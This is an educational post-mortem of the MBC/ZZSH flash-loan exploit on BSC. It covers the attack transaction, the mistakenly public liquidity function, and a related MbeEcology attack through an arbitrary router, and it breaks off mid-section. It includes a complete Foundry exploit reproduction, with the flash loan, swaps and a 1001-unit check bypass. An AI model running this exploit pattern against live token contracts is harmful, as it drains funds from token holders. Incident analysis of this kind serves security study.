# 221129-MBC-ZZSH

## AttackTx

Analyzing the [attack transaction](https://explorer.phalcon.xyz/tx/bsc/0xdc53a6b5bf8e2962cf0e0eada6451f10956f4c0845a3ce134ddb050365f15c86) using Phalcon.

### Fund Flow



The attacker initially borrowed around 800k USDT from the DODO pool for the subsequent attack. 

The main focus then shifted to two tokens, MBC and ZZSH, with a similar overall logic.



The attacker used 150k USDT in the Pancake pool to exchange for approximately 10k MBC (2, 6). This involved some transaction fees and burning operations (3, 4, 5). Eventually, the attacker exchanged MBC tokens back for about 155k USDT, resulting in a profit of around 5k USDT (14, 15). 

During this period, USDT and MBC tokens are transferred to the pair from the MBC contract (7, 8), and LP tokens are minted (9, 10), indicating that the previous token transfer was to add liquidity to the pool. (The two addresses where LP tokens are minted are `feeTo` in the factory and `tokenOwner` in the MBC token)



Finally, the attacker used MBC tokens to exchange for USDT in the pool (14, 15), obtaining approximately 155k USDT.

A similar logic applies to the ZZSH token, resulting in a net profit of approximately 5.9k USDT.

The root cause of this attack seems to be that both the MBC and ZZSH token contracts themselves held a certain amount of tokens (USDT, MBC, and ZZSH). Additionally, there was an external function with access control flaws that allowed anyone to call the contract to help the `tokenOwner` add liquidity to the pool.

### Balance Changes



From the balance changes, it appears that the two token contracts affected by the vulnerability collectively lost approximately 10k USDT (the increase in the quantity of the MBC/ZZSH tokens owned by the contract is likely due to swap fees). In the end, the attacker transferred all the 5.9k USDT in profit to another address.

### State Changes



Because the attacker used token contract funds to add liquidity, the PancakeSwap pool's `totalSupply` increased.

### Invocation Flow

Now let's analyze the internal call details of the transaction.



The outermost layer is a DODO protocol flash loan, where funds are borrowed for the subsequent attack.



Next, there are operations related to the MBC token, involving transferring 150k USDT to the MBC-USDT pool, then calling the `swap` function to exchange for MBC tokens. Afterward, the MBC token contract's `swapAndLiquifyStepV1` function is called, and after a `sync`, a small amount of USDT (1001/10**18) is transferred to the pool, followed by transferring MBC back to the pool and performing another `swap`. The vulnerable function here is clearly `swapAndLiquifyStepV1`, as it performs the liquidity addition operation mentioned earlier.



It can be observed that this function then calls the PancakeRouter's `addLiquidity` function to add liquidity, uses the `transferFrom` function to make the MBC contract transfer tokens to the pool, and finally, mints LP tokens for `tokenOwner`. Moreover, it automatically performs a `sync`, so the attacker doesn't need to manually `sync`.



The ZZSH token follows the same calling process.



Finally, the loan is repaid, and the profits are transferred.

## Vulnerability

Now let's analyze the vulnerability in the [MBC contract](https://bscscan.com/address/0x4E87880A72f6896E7e0a635A5838fFc89b13bd17#code).

From the analysis of the attack transaction, we can see that the vulnerability lies in the `swapAndLiquifyStepV1` function of the contract.

```solidity
function swapAndLiquifyStepv1() public {
    uint256 ethBalance = ETH.balanceOf(address(this));
    uint256 tokenBalance = balanceOf(address(this));
    addLiquidityUsdt(tokenBalance, ethBalance);
}
```

This function first retrieves the contract's USDT and MBC token balances, then calls the `addLiquidityUsdt` function with these balances as parameters.

```solidity
function addLiquidityUsdt(uint256 tokenAmount, uint256 usdtAmount) private {
    uniswapV2Router.addLiquidity(
        address(_baseToken),
        address(this),
        usdtAmount,
        tokenAmount,
        0,
        0,
        _tokenOwner,
        block.timestamp
    );
}
```

The `addLiquidityUsdt` function directly calls the Router's `addLiquidity` function, using all of the contract's balances as parameters to add liquidity for the `tokenOwner`. It's evident that `swapAndLiquifyStepV1` is merely a wrapper for the `addLiquidity` function, allowing the contract's balance to be used for liquidity addition. This functionality should have been a `private` function, but it's mistakenly declared as `public`, enabling attackers to use the contract's balance to add liquidity. (Moreover, based on the attack transaction, it seems that no actual swapping occurred, and liquidity was added directly.) 

The ZZSH contract has identical code to the MBC contract.

## Exploit

### Reproduce

To reproduce the exploit based on the AttackTx, follow the steps below.

```solidity
function testExploit() external {
    uint attackBlockNumber = 23474460;
    cheats.rollFork(attackBlockNumber);

    uint startBalance = usdt.balanceOf(address(this));
    emit log_named_decimal_uint("Initial attacker USDT", startBalance, usdt.decimals());
    uint dodoUSDT = usdt.balanceOf(dodo);
    // Start flashloan
    DPPOracle(dodo).flashLoan(0, dodoUSDT, address(this), abi.encode("dodo"));
    
    // Attack ends
    uint endBalance = usdt.balanceOf(address(this));
    emit log_named_decimal_uint("Total profit USDT", endBalance - startBalance, usdt.decimals());
}

function dodoCall(address /*sender*/, uint256 /*baseAmount*/, uint256 quoteAmount, bytes calldata /*data*/) internal {
    if (msg.sender == dodo) {
        emit log_named_decimal_uint("Total borrowed USDT", usdt.balanceOf(address(this)), usdt.decimals());

        // Approve before swap
        usdt.approve(address(pancakeRouter), type(uint).max);
        mbc.approve(address(pancakeRouter), type(uint).max);
        zzsh.approve(address(pancakeRouter), type(uint).max);

        attack();

        // Repay flashloan
        usdt.transfer(dodo, quoteAmount);
    }
}

function attack() internal {
    USDT2VulToken(mbc_usdt);

    mbc.swapAndLiquifyStepv1();
    // mbc_usdt.sync(); // unnecessary

    usdt.transfer(address(mbc_usdt), 1001);  // According to _isAddLiquidityV1 function when calling _transfer, to avoid executing swapAndLiquify function
    VulToken2USDT(mbc_usdt);

    // zzsh
    USDT2VulToken(zzsh_usdt);
    zzsh.swapAndLiquifyStepv1();
    usdt.transfer(address(zzsh_usdt), 1001);
    VulToken2USDT(zzsh_usdt);
}

function DPPFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) external {
    dodoCall(sender, baseAmount, quoteAmount, data);
}

function USDT2VulToken(PancakePair target) internal {
    // Swap 150k USDT to MBC/ZZSH
    usdt.transfer(address(target), 150_000 ether);
    (uint reserve0, uint reserve1, ) = target.getReserves();
    uint amountOut = 0;
    if (target.token0() != address(usdt)) {
        amountOut  = pancakeRouter.getAmountOut(150_000 ether, reserve1, reserve0);
        target.swap(amountOut, 0, address(this), "");
        emit log_named_decimal_uint("Total exchanged vulnerable token", ERC20(target.token0()).balanceOf(address(this)), mbc.decimals());
    } else {
        amountOut  = pancakeRouter.getAmountOut(150_000 ether, reserve0, reserve1);
        target.swap(0, amountOut, address(this), "");
        emit log_named_decimal_uint("Total exchanged vulnerable token", ERC20(target.token1()).balanceOf(address(this)), mbc.decimals());
    }
}

function VulToken2USDT(PancakePair target) internal {
    // Swap MBC/ZZSH to USDT
    (uint reserve0, uint reserve1, ) = target.getReserves();
    uint usdtAmountout = 0;
    if (target.token0() != address(usdt)) {
        ERC20 token = ERC20(target.token0());
        token.transfer(address(target), token.balanceOf(address(this)));
        uint amountIn = token.balanceOf(address(target)) - reserve0;
        usdtAmountout  = pancakeRouter.getAmountOut(amountIn, reserve0, reserve1);
        target.swap(0, usdtAmountout, address(this), "");
    } else {
        ERC20 token = ERC20(target.token1());
        token.transfer(address(target), token.balanceOf(address(this)));
        uint amountIn = token.balanceOf(address(target)) - reserve1;
        usdtAmountout  = pancakeRouter.getAmountOut(amountIn, reserve1, reserve0);
        target.swap(usdtAmountout, 0, address(this), "");
    }
    emit log_named_decimal_uint("Total exchanged USDT token", usdtAmountout, usdt.decimals());
}
```

First, initiate a flashloan from the DoDo pool with a large amount of USDT. In the callback function `dodoCall`, approve token transfers, execute the `attack` function, and repay the flashloan. The `attack` function involves swapping USDT to target tokens, adding liquidity to the pool by `swapAndLiquifyStepv1`, and then swapping back to USDT. This process results in a profit of approximately 5.9k USDT.

One peculiar aspect when analyzing the attack transaction is the need to transfer 1001/10^18 USDT to the pool when swapping back to USDT. This relates to the token transfer implementation.

When swapping tokens, the attacker transfers target tokens to the pool in exchange for USDT. This involves the following transfer function:

```solidity
function _transfer(
    address from,
    address to,
    uint256 amount
) internal override {
    require(from != address(0) && !_isExcludedFromVip[from], "ERC20: transfer from the zero address");
    require(to != address(0), "ERC20: transfer to the zero address");
    require(amount>0);

    if(_isExcludedFromVipFees[from] || _isExcludedFromVipFees[to]){
        super._transfer(from, to, amount);
        return;
    }
    
    bool isAddLdx;
    if(to == uniswapV2Pair){
        isAddLdx = _isAddLiquidityV1();
    }
    
    if(balanceOf(address(this)) > swapTokensAtAmount){
        if (
            !swapping &&
            _tokenOwner != from &&
            _tokenOwner != to &&
            from != uniswapV2Pair &&
            swapAndLiquifyEnabled &&
            !isAddLdx
        ) {
            swapping = true;
            swapAndLiquify();
            swapping = false;
        }
    }
    
    bool takeFee = !swapping;
    if (_isExcludedFromFees[from] || _isExcludedFromFees[to] || _destroyMax <= balanceOf(_destroyAddress)) {
        takeFee = false;
    }else{
        if(from == uniswapV2Pair){
            require(swapBuyStats);
        }else if(to == uniswapV2Pair){
            require(swapSellStats);
            if(balanceOf(from) == amount){
                amount = amount.div(10000).mul(9999);
            }
        }else{
            takeFee = false;
        }
    }

    if (takeFee) {
        super._transfer(from, _destroyAddress, amount.div(100).mul(deadRate));
        super._transfer(from, address(this), amount.div(100).mul(ldxRate));
        super._transfer(from, _fundAddress, amount.div(100).mul(fundRate));
        amount = amount.div(100).mul(100 - fundRate - deadRate - ldxRate);
    }
    super._transfer(from, to, amount);
}
```

This code contains fee calculations. Notably, fees are transferred to the token contract, which is why the token contract holds a balance of the token.

```solidity
bool isAddLdx;
if(to == uniswapV2Pair){
    isAddLdx = _isAddLiquidityV1();
}

if(balanceOf(address(this)) > swapTokensAtAmount){
    if (
        !swapping &&
        _tokenOwner != from &&
        _tokenOwner != to &&
        from != uniswapV2Pair &&
        swapAndLiquifyEnabled &&
        !isAddLdx
    ) {
        swapping = true;
        swapAndLiquify();
        swapping = false;
    }
}
```

From a logical perspective, the above part of the code first checks whether it is the target token transfer to the pool. If it is, the `_isAddLiquidityV1` function is called.

``` solidity
function _isAddLiquidityV1()internal view returns(bool ldxAdd){
    address token0 = IUniswapV2Pair(address(uniswapV2Pair)).token0();
    address token1 = IUniswapV2Pair(address(uniswapV2Pair)).token1();
    (uint r0,uint r1,) = IUniswapV2Pair(address(uniswapV2Pair)).getReserves();
    uint bal1 = IERC20(token1).balanceOf(address(uniswapV2Pair));
    uint bal0 = IERC20(token0).balanceOf(address(uniswapV2Pair));
    if( token0 == address(this) ){
        if( bal1 > r1){
            uint change1 = bal1 - r1;
            ldxAdd = change1 > 1000;
        }
    }else{
        if( bal0 > r0){
            uint change0 = bal0 - r0;
            ldxAdd = change0 > 1000;
        }
    }
}
```

This function checks the `balance` and `reserve` of the current pool. If the quantity of the other token in the pool (in this case, USDT) increases and exceeds 1,000, it returns `true`.

Since the validation `to == uniswapV2Pair` earlier, it indicates that tokens are being added to the pool. Therefore, here, it checks whether the quantity of the other token in the pool has increased to determine if it's a liquidity addition operation.

``` solidity
if(balanceOf(address(this)) > swapTokensAtAmount){
    if (
        !swapping &&
        _tokenOwner != from &&
        _tokenOwner != to &&
        from != uniswapV2Pair &&
        swapAndLiquifyEnabled &&
        !isAddLdx
    ) {
        swapping = true;
        swapAndLiquify();
        swapping = false;
    }
}
```

Afterward, the contract will check if the balance is greater than a threshold value. If it is, and it is not a liquidity addition scenario (along with some other checks), the `swapAndLiquify` function will be invoked.

```solidity
function swapAndLiquify() public {
    uint256 allAmount = balanceOf(address(this));
    if(allAmount > 10**18){
        uint256 canswap = allAmount.div(2);
        uint256 otherAmount = allAmount.sub(canswap);
        swapTokensForOther(canswap);
        uint256 ethBalance = ETH.balanceOf(address(this));
        addLiquidityUsdt(ethBalance, otherAmount);
    }
}
```

This function checks the contract balance and uses half of the token balance as parameter to call `swapTokensForOther`.

```solidity
function swapTokensForOther(uint256 tokenAmount) public {
    address[] memory path = new address[](2);
    path[0] = address(this);
    path[1] = address(_baseToken);
    uniswapV2Router.swapExactTokensForTokensSupportingFeeOnTransferTokens(
        tokenAmount,
        0,
        path,
        address(warp),
        block.timestamp
    );
    warp.withdraw();
}
```

Actually, it swaps half of the contract's token to USDT. Then, it uses the remaining token along with the converted USDT to call `addLiquidityUsdt` and add liquidity for the `tokenOwner`. Since adding liquidity calculates the input amounts based on the actual reserves in the pool, it may leave some USDT in the contract, which is why the contract holds USDT.

Overall, this vulnerable token is designed with the following logic: during token transfer, if it's not transferring out of the pool (i.e., exchanging USDT for contract tokens), doesn't involve `tokenOwner`, and the `_isAddLiquidityV1` function confirms it's not adding liquidity, then the `swapAndLiquify` function is executed. This function converts half of the contract's tokens into USDT and adds liquidity for `tokenOwner`.

Therefore, for the attacker to exploit, they need to avoid executing `swapAndLiquify`. Otherwise, if the contract executes `swap` beforehand, it would lower the price of tokens during the attacker's exchange, rendering them unable to profit. Simply by transferring USDT before transferring (swap) target tokens, making it appear as liquidity addition, can circumvent this situation. According to the code logic, a minimum transfer of 1001 would suffice.

(However, this design seems to result in higher slippage for regular users selling the tokens when the contract balance exceeds a certain threshold, akin to someone frontrunning and selling ahead.)


### Attack Flow

Analyzing the entire attack flow from the [attacker's address](https://bscscan.com/address/0x9cc3270De4A3948449C1A73eABff5D0275f60785):



First, on November 28th, at approximately 4:09 PM, the attacker deposited 1 BNB into Tornado Cash for initial attack funds.



The next day, at 1:00 PM, the attacker created a contract (profitContract) for receiving the profits and another contract (attackContract) for the attack. The attacker then called the attack contract to initiate the attack. These transactions occurred in consecutive blocks, indicating that the attacker rapidly executed these transactions directly within a script.



Two days later, on the afternoon of December 1st, at 2 PM, the attacker created another contract and invoked the `0xdbce5f1e` function.

Analyzing this [transaction](https://explorer.phalcon.xyz/tx/bsc/0x79cd01e651eae4b0d601168af0fecad0435960fc781fe707786fdfe395963423), it becomes evident that this was yet another attack involving the [MbeEcology token](https://bscscan.com/address/0xe23150242448ce5474f4f881b6e26f2d2816e4c8).

The vulnerability, once again, dues to the access control. This token has the following two `public` functions.

``` solidity
function swapTokensForEth(
    address routerAddress,
    uint256 tokenAmount
) public  {
    IRouter pancakeRouter = IRouter(routerAddress);

    // generate the pancake pair path of token -> weth
    address[] memory path = new address[](2);
    path[0] = address(this);
    path[1] = pancakeRouter.WETH();

    // make the swap
    pancakeRouter.swapExactTokensForETHSupportingFeeOnTransferTokens(
        tokenAmount,
        0, // accept any amount of BNB
        path,
        address(this),
        block.timestamp
    );
}
function addLiquidity(
    address routerAddress,
    address owner,
    uint256 tokenAmount,
    uint256 ethAmount
) public {
    IRouter pancakeRouter = IRouter(routerAddress);

    // add the liquidity
    pancakeRouter.addLiquidityETH{value : ethAmount}(
        address(this),
        tokenAmount,
        0, // slippage is unavoidable
        0, // slippage is unavoidable
        owner,
        block.timestamp + 360
    );
}
```

The logic behind the `swapTokensForEth` function is to exchange the contract's tokens for BNB, while `addLiquidity` is used to add liquidity for the `owner` using the contract's balance (similar to the earlier MBC and ZZSH tokens). Clearly, both of these functions should not be marked as `public`. What makes this more severe than the other two tokens is that the address of the `router` can be arbitrarily set, allowing the creation of malicious contracts (as shown in the attacker's third contract), which can use the same function signature to implement malicious logic.

The attacker exploited this vulnerability by first exchanging all the tokens in the contract for BNB using the `swapTokensForEth` function. Subsequently, they used the malicious contract as the `router` and called the `addLiquidity` function, but did not implement the liquidity addition functionality. Instead, they simply transferred out all the BNB balance (`{value: ethAmount}`), ultimately gaining approximately 0.6 BNB.



Three days later, on December 4th, the attacker withdrew all the profits obtained from the attack through the `profitContract`. After converting USDT to BNB, they used Tornado Cash to further anonymize their funds and complete the exit.

## Misc

### Reason For Profit

One obvious question arises: why was the attacker able to receive more USDT than initially invested after providing liquidity, even though two swaps incurred layers of fees?

According to Uniswap's economic model, as illustrated in the following diagram:



When the input token quantity `dy` is smaller relative to the reserve values `x` and `y` of the two tokens in the pool, the output token quantity `dx` is closer to the ratio of the reserves. Therefore, if liquidity increases, one can exchange tokens at a better price and get more tokens.

In the above scenario, the reserve values of the two tokens are 100,000 and 20 respectively (ETH:DAI = 1:5000), which can be simply understood as 1 ETH being worth 5000 DAI. Without considering fees, 1 ETH can be exchanged for about 4761 DAI (1:4761). However, if you use 5 ETH for the exchange, you can only get 20,000 DAI (1:4000).

If at this point, the reserve values of the two tokens are 200,000 and 40 respectively (ETH:DAI = 1:5000), with the relative value being the same as before but with more liquidity, without considering fees, 1 ETH can be exchanged for about 4878 DAI (1:4878). If you use 5 ETH for the exchange, you can get 22,222 DAI (1:4444).

Obviously, the higher the pool's liquidity (the more sufficient the reserves of the two tokens), the better the price one can get when exchanging, closer to the reserve ratio, and the more tokens one can get. This is why the attacker can get more USDT by first using a vulnerable contract to add liquidity and then exchange tokens.

### Loss

Another question is how much loss the victim (the vulnerable token contract / tokenOwner) suffered in this attack. In other words, the tokens were added to the pool as liquidity, and `tokenOwner` received LP tokens, so why was there still a loss? (If there was no loss, the attacker could have simply added liquidity with their own funds.)

Continuing with the previous example, in a pool with reserve values of 100,000 and 20 (ETH:DAI = 1:5000), a regular user added 10,000 DAI and 2 ETH to the pool, representing 10% of the liquidity. At that time, the value was calculated as 20,000 DAI. If another user sells 10 ETH into the pool, they would receive approximately 33,333 DAI. The pool would then contain 66,667 DAI and 30 ETH (ETH:DAI = 1:2,222). For the liquidity provider, their 10% share would now be worth only 13,333 DAI, which is a loss compared to the initial value without providing liquidity (10,000 DAI + 2 ETH = 14,444 DAI). This loss is known as impermanent loss.

It's important to note that the measurement and perception of impermanent loss depend on the chosen reference (base). Typically, stablecoins (such as the USDT obtained by the attacker and the DAI in the example above) are used as the reference, and what is concerned is how the asset value relative to this stablecoin changes. In the example, DAI is the reference, and it experienced impermanent loss. However, if ETH were the reference, the liquidity share would be equivalent to having 6 ETH, which is an increase compared to the initial value without providing liquidity (10,000 DAI + 2 ETH = 4 ETH).

In this attack, the `tokenOwner` added liquidity when the contract token's value was high. Subsequently, due to the attacker's swaps, the contract token's quantity increased, causing the price to drop. When viewed with USDT as the reference, impermanent loss became evident.

### Bugs

During the analysis, it appears that several other bugs exist in the token contract's design.

```solidity
function testAddLiquidity() external {
    address test = 0x1234123412341234123412341234123412341234;
    deal(address(usdt), test, 10000 ether);
    deal(address(mbc), test, 1000 ether);
    cheats.startPrank(test);
    usdt.approve(address(pancakeRouter), type(uint).max);
    mbc.approve(address(pancakeRouter), type(uint).max);
    
    emit log_named_decimal_uint("Initial mbc balance in the pool", mbc.balanceOf(address(mbc_usdt)), mbc.decimals());
    emit log_named_decimal_uint("Initial usdt balance in the pool", usdt.balanceOf(address(mbc_usdt)), usdt.decimals());
    (uint reserve0, uint reserve1, ) = mbc_usdt.getReserves();
    emit log_named_decimal_uint("Initial mbc price", pancakeRouter.quote(1 ether, reserve0, reserve1), usdt.decimals());
    console.log(mbc.balanceOf(address(mbc))/1 ether);
    pancakeRouter.addLiquidity(address(usdt), address(mbc), usdt.balanceOf(test), mbc.balanceOf(test), 0,0, test, block.timestamp);
    // pancakeRouter.addLiquidity(address(mbc), address(usdt), mbc.balanceOf(test), usdt.balanceOf(test), 0,0, test, block.timestamp);
    
    emit log_named_decimal_uint("Eventually mbc balance in the pool", mbc.balanceOf(address(mbc_usdt)), mbc.decimals());
    emit log_named_decimal_uint("Eventually usdt balance in the pool", usdt.balanceOf(address(mbc_usdt)), usdt.decimals());
    (uint reserve00, uint reserve11, ) = mbc_usdt.getReserves();
    emit log_named_decimal_uint("Eventually mbc price", pancakeRouter.quote(1 ether, reserve00, reserve11), usdt.decimals());

    cheats.stopPrank();
}
```

In the above test code for adding liquidity, if the `addLiquidity` function receives `usdt` as the first parameter and `mbc` as the second parameter, liquidity can be added without errors, and the relative token prices obtained via the `quote` function remain largely unchanged.

However, if the parameters are reversed, with `mbc` first and `usdt` second, the code should function identically according to the router's implementation, but it results in an error.

Analysis reveals several issues with the token contract:

Firstly, the reason for the error:

```solidity
